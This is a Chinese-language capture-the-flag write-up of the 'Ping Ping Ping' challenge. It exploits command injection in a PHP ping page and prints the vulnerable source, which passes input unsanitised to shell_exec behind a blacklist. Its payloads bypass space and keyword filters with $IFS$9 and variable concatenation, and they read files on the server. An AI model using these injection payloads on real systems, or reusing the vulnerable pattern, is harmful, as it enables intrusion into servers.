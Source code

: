 # [GXYCTF2019]Ping Ping Ping

打开题目出现提示信息：`/?ip=`

尝试 `/?ip=127.0.0.1` 返回ping的结果

使用 `/?ip=127.0.0.1||ls` 列出当前目录文件:
 - flag.php
 - index.php

尝试 `/?ip=127.0.0.1||cat flag.php` 提示:
*fxck your space!*

尝试 `/?ip=127.0.0.1||cat<flag.php` 提示:
*fxck your symbol!*

使用$IFS替代空格：

`/?ip=127.0.0.1||cat$IFSflag.php`

提示：*fxck your flag!*

发现过滤了关键词：flag、单引号、双引号

读取index.php源代码：
`/?ip=127.0.0.1||cat$IFS$9index.php`
```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

根据代码过滤的内容，构造payload：

`/?ip=127.0.0.1||a=g.php;b=fla;cat$IFS$b$a`

get flag!
